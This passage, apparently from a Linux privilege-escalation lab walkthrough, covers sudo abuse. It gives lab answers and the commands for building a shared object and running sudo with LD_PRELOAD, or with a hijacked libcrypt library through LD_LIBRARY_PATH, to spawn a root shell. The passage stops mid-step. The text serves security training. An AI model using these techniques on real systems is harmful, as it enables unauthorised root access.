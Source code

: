 Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.
For an extra challenge, try to gain a root shell using all the programs on the list!

Exit out of the root shell before continuing!

### Questions

**How many programs is `user` allowed to run via sudo?** 

Answer: `11`

**One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?**

Answer: `apache2`

Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.

## Sudo - Environment variables

`sudo` can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

    sudo -l

`LD_PRELOAD` and `LD_LIBRARY_PATH` are both inherited from the user's environment. `LD_PRELOAD` loads a shared object 
before any others when a program is run. `LD_LIBRARY_PATH` provides a list of directories where shared libraries are 
searched for first.

Create a shared object using the code located at `/home/user/tools/sudo/preload.c`:

    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

Run one of the programs you are allowed to run via sudo (listed when running `sudo -l`), while setting the `LD_PRELOAD` 
environment variable to the full path of the new shared object:

    sudo LD_PRELOAD=/tmp/preload.so program-name-here

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need 
to exit out of this as well.

Run `ldd` against the `apache2` program file to see which shared libraries are used by the program:

    ldd /usr/sbin/apache2

Create a shared object with the same name as one of the listed libraries (`libcrypt.so.1`) using the code located at 
`/home/user/tools/sudo/library_path.c`:

    gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

Run `apache2` using `sudo`, while settings the `LD_LIBRARY_PATH` environment variable to `/tmp` (where we output the 
compiled shared object):
